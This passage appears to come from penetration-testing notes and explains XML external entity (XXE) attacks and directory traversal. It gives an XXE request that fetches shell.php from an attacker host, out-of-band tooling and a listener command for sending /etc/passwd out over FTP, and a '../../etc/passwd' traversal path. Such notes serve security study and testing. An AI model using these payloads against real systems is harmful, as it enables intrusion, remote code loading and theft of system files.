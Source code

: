 ```
<root>

<search>name</search>

<value>&xxe;</value>

</root>
```

\#Example POST request that downloads a file from an attacker's web server

```
POST / HTTP/1.1
Host: domain.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Length: 198

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://attacker-ip:attacker-port/shell.php" >]>
<foo>&xxe;</foo>
```

**Automated Tools for BlindXXE** _**Payload generation**_ You can go to the below site and generate a payload

```
https://www.xxe.sh/
```

Make sure to select the right domain or ip in the input box !\[\[XXE.sh.jpg]] This will attempt to post the contents of /etc/passwd to your already open ftp server. You can use the below tool in conjuction with \[xxe.sh] to retrieve the contents

```
https://github.com/lc/230-OOB
```

and launch the listener

```
python3 230.py 2121
```

#### Directory Traversal

Directory traversal is a specific type of injection attack that attempts to access a file by including the full directory path or traversing the directory structure, example is the below path can be appended to a URL to access the contents of the password file on UNIX

```
../../etc/passwd
```

In Linux operating systems, the .. operator in a file path refers to the directory one level higher than the current directory. For example, the path `/var/www/html/../` refers to the directory that is one level higher than the html directory, or `/var/www/`.
